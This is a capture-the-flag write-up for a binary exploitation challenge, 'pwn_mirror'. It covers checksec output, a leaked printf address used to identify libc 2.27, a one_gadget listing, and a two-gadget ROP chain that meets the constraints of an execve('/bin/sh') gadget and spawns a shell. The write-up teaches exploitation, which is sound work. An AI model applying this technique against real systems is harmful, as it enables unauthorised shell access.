


## pwn_mirror
Running a checksec : 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```
The addresses are randomized

"Talking" to the mirror gives us a memory leak
```
Do you want to talk to the mirror? (y/n)
> y
Your answer was: y
"This is a gift from the craftsman.. [0x7ffc579a04e0] [0x7f753b204470]"
Now you can talk to the mirror.
> 

```

The second one is the address of IO_printf


Now we can identify the libc version using [libc database search](https://libc.nullbyte.cat) and we can calculate our offsets

On my computer is 2.30 on the server it was 2.27.

In order to get a shell I will use one_gadget
```
one_gadget libc6_2.27-3ubuntu1.3_amd64.so --level 1 (to get all possible gadgets)

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```
Sadly, by default the binary does not meet the conditions of any gadget.
But, I will adjust the registers using a ROPchain.
I will search for gadgets in the libc because I already have the IO_printf address.

The ropchain is as following :
```
mov RDX, RAX % RAX is already null
POP RCX % RCX becomes null by placing a \x00*8 on the stack
```
```
objdump -D -Mintel libc6_2.27-3ubuntu1.3_amd64.so
...
14148d:       48 89 c2                mov    rdx,rax
...
34da3 : pop rcx ; ret

```

Now I can use the 0xe5622 gadget and spawn a shell


